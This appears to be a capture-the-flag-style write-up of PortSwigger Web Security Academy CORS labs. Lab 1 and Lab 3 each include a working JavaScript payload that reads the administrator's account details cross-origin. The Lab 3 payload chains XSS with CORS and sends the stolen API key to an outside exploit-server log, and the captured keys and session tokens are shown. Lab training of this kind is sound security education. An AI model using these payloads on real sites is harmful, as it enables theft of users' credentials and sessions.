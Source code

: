 # Cross-origin resource sharing (CORS)

Get details at [here](https://portswigger.net/web-security/cors)

---

[Lab 1](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

Description of this lab: craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key and use credentials: wiener:peter

Log in with above credentials, then we can find in `/accountDetails` having response contains the Access-Control-Allow-Credentials header, we need to exploit this.

Use this script in exploit server body, click store and view exploit to check everything is ok, then deliver exploit to victim and go to access log to find response

```js
    <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ad300b20384a448c0c2754200cb00ab.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
    </script>
```

We can find a request like this `GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22ppangVtseLowbvHNDQTQGwasciL3jlOz%22,%20%20%22sessions%22:%20[%20%20%20%20%22qJ0YDt5Fc25rXs625eXPcWIU5RTujr4r%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.71 Safari/537.36"` and answer is ppangVtseLowbvHNDQTQGwasciL3jlOz (after apikey). Go back home and submit, then solved the lab.

[Lab 2](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

Description of this lab: this website has an insecure CORS configuration in that it trusts the "null" origin.



[Lab 3](https://portswigger.net/web-security/cors/lab-breaking-https-attack)

Description of this lab: it trusts all subdomains regardless of the protocol, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key

Log in with credentials lab 1, 

At any post having check stock button, when we click on this, website will pop up new screen with URL like this `http://stock.0a5d009103eed0bfc040312500d40071.web-security-academy.net/?productId=1&storeId=1`. Resending this with burp repeater, and it has Access-Control-Allow-Credentials header

Use this script in exploit server:

```js
    <script>
        document.location="http://stock.0a5d009103eed0bfc040312500d40071.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a5d009103eed0bfc040312500d40071.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0aa400b1033fd0f0c0c83346012000f0.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
    </script>
```

Do the same as lab 1,and we get log like this `"GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%222xBdobabBVdlG3LL1JSSZBDYGYpzettT%22,%20%20%22sessions%22:%20[%20%20%20%20%22F6zL5lbcOG04rrzPnWPzXkB7bp2omm2O%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.71 Safari/537.36"`. Submit secret and solved the lab.